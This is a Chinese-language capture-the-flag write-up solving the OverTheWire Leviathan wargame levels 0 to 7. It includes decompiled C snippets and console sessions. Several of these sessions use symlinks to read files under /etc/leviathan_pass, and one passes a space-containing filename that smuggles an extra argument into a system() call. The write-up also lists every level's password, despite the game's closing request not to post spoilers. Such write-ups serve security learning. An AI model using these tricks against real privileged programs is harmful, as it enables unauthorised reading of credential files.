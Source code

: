 ```yaml
---
title: wargames刷题[Leviathan]
date: 2022-09-04 10:10:00 +0800
categories: [CTF, Exercise]
tags: [ctf, basic, wargames]     # TAG names should always be lowercase
---
```


# leviathan0

隐藏文件夹，ls -al就能看到bookmark.html。在里面搜索password即可，做题的时候没想到关键词是password。

>PPIfmI1qsA

# leviathan1

32位程序验证密码，objdump简单看了下程序中明文存储了密码sex

>mEh5PNl10e

# leviathan2

access函数检查用户对某文件的权限，程序中先用access判断后才执行/bin/cat。这样的方式存在绕过技术，大致的原理与空格相关

```console
leviathan2@gibson:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/backdoor
leviathan2@gibson:~$ touch /tmp/"backdoor passwd"
leviathan2@gibson:~$ ./printfile /tmp/backdoor\ passwd
Q0G8j4sakn
/bin/cat: passwd: No such file or directory
```

```c
if ( access(argv[1], 4) )
    {
      puts("You cant have that file...");
      return 1;
    }
else
    {
      snprintf(s, 0x1FFu, "/bin/cat %s", v6[1]);
      v4 = geteuid();
      v5 = geteuid();
      setreuid(v5, v4);
      system(s);
      return 0;
    }
```

>Q0G8j4sakn

# leviathan3

跟level1一样明文比较，没什么含金量

>AgvropI4OA

# leviathan4

用二进制形式直接输出了password，没啥好说的直接还原

```python
>>>for i in s:
...     print(chr(int(i, 2)), end='')
```

```console
leviathan4@gibson:~$ ./.trash/bin
01000101 01001011 01001011 01101100 01010100 01000110 00110001 01011000 01110001 01110011 00001010
```

```c
stream = fopen("/etc/leviathan_pass/leviathan5", "r");
  if ( !stream )
    return -1;
  fgets(buf, 256, stream);
  for ( i = 0; strlen(buf) > i; ++i )
  {
    v4 = *(_BYTE *)(i + 134529120);
    for ( j = 0; j <= 7; ++j )
    {
      if ( v4 >= 0 )
        putchar(48);
      else
        putchar(49);
      v4 *= 2;
    }
    putchar(32);
  }
  putchar(10);
```

>EKKlTF1Xqs

# leviathan5

直接软链接输出file.log即可，一开始一直关注unlink被带跑了。

```c
stream = fopen("/tmp/file.log", "r");
  if ( !stream )
  {
    puts("Cannot find /tmp/file.log");
    exit(-1);
  }
  while ( 1 )
  {
    v5 = fgetc(stream);
    if ( feof(stream) )
      break;
    putchar(v5);
  }
  fclose(stream);
  v3 = getuid();
  setuid(v3);
  unlink("/tmp/file.log");
```

```console
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5
YZ55XPVk2l
```

>YZ55XPVk2l

# leviathan6

直接提权，没有任何难度。

```c
if ( argc != 2 )
  {
    printf("usage: %s <4 digit code>\n", *argv);
    exit(-1);
  }
  if ( atoi(argv[1]) == 7123 )
  {
    v3 = geteuid();
    v4 = geteuid();
    setreuid(v4, v3);
    system("/bin/sh");
  }
  else
  {
    puts("Wrong");
  }
  return 0;
```

>8GpZ5f8Hze

# leviathan7

通关

```console
leviathan7@gibson:~$ cat CONGRATULATIONS
Well Done, you seem to have used a *nix system before, now try something more serious.
(Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)
```